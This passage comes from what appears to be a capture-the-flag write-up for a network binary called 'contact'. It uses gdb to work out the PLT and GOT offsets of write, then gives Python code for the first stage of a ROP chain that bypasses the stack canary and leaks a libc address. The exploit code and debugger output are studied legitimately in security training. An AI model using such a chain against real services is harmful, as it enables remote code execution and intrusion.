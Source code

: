        0x000055d9d3d0d050 <+0>:     jmp    QWORD PTR [rip+0x2fd2]        # 0x55d9d3d10028 <write@got.plt>
       0x000055d9d3d0d056 <+6>:     push   0x2
       0x000055d9d3d0d05b <+11>:    jmp    0x55d9d3d0d020
    End of assembler dump.
    

The PLT address of `write` is 0x000055d9d3d0d050. I can subtract off the base
I calculated earlier to get the offset:

    
    
    gdb-peda$ p 0x000055d9d3d0d050-0x55d9d3d0c000
    $4 = 0x1050
    

I can also calculate the GOT offset from the base address here as well:

    
    
    gdb-peda$ p 0x55d9d3d10028 - 0x55d9d3d0c000
    $5 = 0x4028
    

Finally, I need the file descriptor to write to. When I run locally, I see it
it starts listening on fd 3, and new child connections start on 4:

    
    
    root@kali# ./contact
    listen on port 1337, fd is 3
    [+] Request accepted fd 4, pid 0
    [+] Request accepted fd 4, pid 0
    

So I’ll write to 4.

#### Code

Putting all of that together, I can write the following code:

    
    
    ### Stage 1: Leak libc
    # Gadgets
    prog_base = u64(ret) - 0x1562
    pop_rdi_ret = p64(0x164b + prog_base)
    pop_rsi_r15_ret = p64(0x1649 + prog_base)
    pop_rdx_ret = p64(0x1265 + prog_base)
    write = p64(0x1050 + prog_base)
    write_got = p64(0x4028 + prog_base)
    
    junk = b"A"*56
    exploit =  junk + canary + rbp
    
    # write(4, write_got, 8)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += write_got
    exploit += p64(0)
    exploit += pop_rdx_ret
    exploit += p64(8)
    exploit += write
    